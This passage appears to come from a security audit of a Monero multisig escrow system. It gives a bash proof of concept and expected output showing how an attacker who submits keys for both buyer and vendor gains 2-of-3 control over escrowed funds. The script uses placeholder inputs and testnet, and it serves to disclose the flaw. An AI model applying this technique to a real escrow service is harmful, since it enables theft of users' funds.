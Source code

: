
### POC 3: Generate Backdoored Multisig Address

**Target:** Prove that malicious inputs lead to attacker-controlled address

```bash
#!/bin/bash
# POC: Combine malicious multisig_infos to generate controlled address

# Scenario: Attacker submits for BOTH buyer and vendor roles
ATTACKER_INFO_1="MultisigV1weak_seed_1..."  # Known private key #1
ATTACKER_INFO_2="MultisigV1weak_seed_2..."  # Known private key #2
LEGIT_ARBITER_INFO="MultisigV1arbiter123..."  # Legitimate arbiter

echo "[*] Simulating make_multisig with 2 backdoored inputs..."

# Call Monero RPC make_multisig (simplified)
multisig_address=$(monero-wallet-cli --testnet <<EOF
make_multisig 2 $ATTACKER_INFO_1 $ATTACKER_INFO_2 $LEGIT_ARBITER_INFO
exit
EOF
)

echo "[!] Resulting multisig address: $multisig_address"
echo ""
echo "[!] Analysis:"
echo "    - Requires 2-of-3 signatures"
echo "    - Attacker controls key #1 (buyer)"
echo "    - Attacker controls key #2 (vendor)"
echo "    - Arbiter controls key #3 (legitimate)"
echo ""
echo "[!] CRITICAL: Attacker has 2-of-3 keys → FULL CONTROL"
echo "    Can sign transactions WITHOUT arbiter"
echo "    Can steal all escrowed funds"
```

**Expected Output:**
```
[*] Simulating make_multisig with 2 backdoored inputs...
[!] Resulting multisig address: 9xMaliciousBackdoorAddress123...

[!] Analysis:
    - Requires 2-of-3 signatures
    - Attacker controls key #1 (buyer)
    - Attacker controls key #2 (vendor)
    - Arbiter controls key #3 (legitimate)

[!] CRITICAL: Attacker has 2-of-3 keys → FULL CONTROL
    Can sign transactions WITHOUT arbiter
    Can steal all escrowed funds
```

---
